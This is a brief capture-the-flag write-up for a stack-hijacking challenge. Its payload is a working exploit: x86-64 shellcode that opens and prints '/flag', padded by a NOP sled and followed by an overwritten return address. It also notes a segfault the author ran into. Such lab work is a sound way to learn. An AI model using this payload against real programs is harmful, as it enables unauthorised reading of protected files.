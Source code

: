 The payload that i used

    python -c 'import sys; sys.stdout.buffer.write(b"\x31\xc0\xb8\x02\x00\x00\x00\x48\x8d\x3d\x1b\x00\x00\x00\x31\xf6\x0f\x05\x31\xff\x40\xb7\x01\x31\xf6\x40\x88\xc6\x31\xd2\x49\xc7\xc2\x80\x00\x00\x00\xb0\x28\x0f\x05\x2f\x66\x6c\x61\x67\x00" + b"\x90"*89 + b"\x70\xd2\xff\xff\xff\x7f")' | ./binary-exploitation-hijack-to-shellcode-w

The shell code that i used for previous challenge did not work so i had to create a different one
push and pop function in the shell was throwing seg fault because the shellcode was present on stack (dont know why it was throwing seg fault)
